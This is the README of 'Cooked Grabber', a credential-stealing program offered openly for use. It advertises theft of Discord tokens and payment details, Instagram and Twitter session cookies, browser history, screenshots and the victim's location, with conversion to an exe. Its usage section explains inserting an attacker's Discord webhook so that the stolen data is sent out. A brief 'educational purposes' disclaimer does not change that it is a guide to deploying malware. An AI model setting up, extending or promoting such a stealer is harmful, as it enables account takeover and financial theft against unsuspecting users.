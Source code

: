 ![Logo](https://imgur.com/lCyX6TX.png)

# Cooked Grabber

Discord , Twitter, Instagram cookies and token grabber.

## Features

- Easy to use
- Alls navigators compatibility
- Browser history stealer
- Browser bookmarks stealer
- Take screenshot 
- Steal discord token
- Steal discord payment informations
- Steal IP adress and location
- Steal Instagram connection cookies
- Steal Twitter connection cookies
- Can be converted to exe
## Requirements

- **Windows 10** OS only (*win32, for x86, x86_64, and arm64 architectures*)
- **Python 3.x** (*unless it exe converted, python 3.9 used for the project.*)
- **Modules:** `$ pip install -r requirements.txt` (unless it exe converted)

## Screenshots

![App Screenshot](https://imgur.com/zMODaIm.png)

![App Screenshot](https://imgur.com/FcMbJhR.png)

## How to use ?

There is 2 ways to run the script.

### 1. First way

You need to add your **webhook(s)** **link(s)** to the script from this line:
```py
main(['YOUR DISCORD WEBHOOK URL']) #line 273
```
*You can run the script normaly.*

### 2. Second way

You can also run the program by giving several arguments (the webhook(s) link(s)):
```console
py CookedGrabber.py YOUR WEBHOOK(s) URL(s)
```

## Coming soon features 
- Saved password stealer
- More error bypass
## Disclaimer
- Only for educationnal puposes.
- We decline any responsability in case of misuse of this code.

## Author

- [@mouadessalim](https://github.com/mouadessalim)
- [@crashixx](https://github.com/crashixx)
